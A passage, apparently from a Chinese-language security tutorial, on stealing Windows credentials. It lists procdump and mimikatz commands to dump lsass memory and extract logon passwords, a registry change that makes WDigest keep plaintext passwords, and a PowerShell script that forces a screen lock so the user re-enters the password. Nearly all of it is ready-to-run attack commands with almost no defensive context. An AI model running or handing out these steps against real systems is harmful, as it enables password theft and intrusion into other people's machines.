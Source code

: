 [![image-20220528082740055.png](assets/1698894253-23f295eb0c2203a7b222be10cd7488f9.png)](https://storage.tttang.com/media/attachment/2022/06/17/d991b7f9-03a8-4d90-b728-813636c26e72.png)

#### [prodump+mimikatz +注册表（适用于 win10 及 2012 以后的版本）](#toc_produmpmimikatz-win102012)

```plain
procdump.exe -accepteula -ma lsass.exe lsass.dmp 
mimikatz.exe # "sekurlsa::minidump C:\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" exit
```

如果不修改注册表 抓取后密码会显示 NULL

可以通过修改注册表 让 Wdigest Auth 保存明文口令：

```plain
reg add HKLM/SYSTEM/CurrentControlSet/Control/SecurityProviders/WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

如果想恢复原样 1 改成 0 即可

修改注册表后需要用户注销或者重新登录之后才会生效

强制锁屏脚本

```plain
Function Lock-WorkStation {

$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@

$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru

$LockWorkStation::LockWorkStation() | Out-Null

}

Lock-WorkStation
```
